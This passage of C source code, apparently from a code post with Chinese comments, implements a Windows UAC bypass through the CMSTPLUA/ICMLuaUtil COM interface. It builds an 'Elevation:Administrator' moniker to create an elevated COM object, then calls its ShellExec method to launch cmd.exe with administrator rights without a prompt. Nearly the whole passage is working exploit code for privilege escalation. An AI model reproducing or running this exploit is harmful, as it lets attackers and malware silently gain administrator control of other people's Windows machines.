        __RPC__in ICMLuaUtil* This);
    END_INTERFACE
} *PICMLuaUtilVtbl;

interface ICMLuaUtil
{
    CONST_VTBL struct ICMLuaUtilVtbl* lpVtbl;
};

// 以管理员权限创建COM对象 
HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void** ppv)
{

	BIND_OPTS3 bo;
	WCHAR  wszCLSID[50];
	WCHAR  wszMonikerName[300];

    // 将CLSID转换为字符串
	StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
	
    // 创建绑定名称
    HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
		return hr;
	
    // 初始化BIND_OPTS3结构
    memset(&bo, 0, sizeof(bo));
	bo.cbStruct = sizeof(bo);
	bo.hwnd = hwnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;

    // 创建COM对象
	return CoGetObject(wszMonikerName, &bo, riid, ppv);
}

// 绕过UAC的函数
BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable, LPCTSTR szArg)
{   
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;

    // 将字符串转换成CLSID和IID
	CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
	IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

    // 创建具有管理员权限的COM对象
	CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
	
    // 使用COM对象执行ShellExec方法
    hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, szArg, NULL, 0, SW_SHOW);
	CMLuaUtil->lpVtbl->Release(CMLuaUtil);
    
	if (GetLastError())
	{
		return FALSE;
	}
	else {
		return TRUE;
	}
}

int main() {

	CoInitialize(NULL);
	CMLuaUtilBypassUAC((LPWSTR)L"cmd.exe",NULL);
	CoUninitialize();
	return 0;
}
```


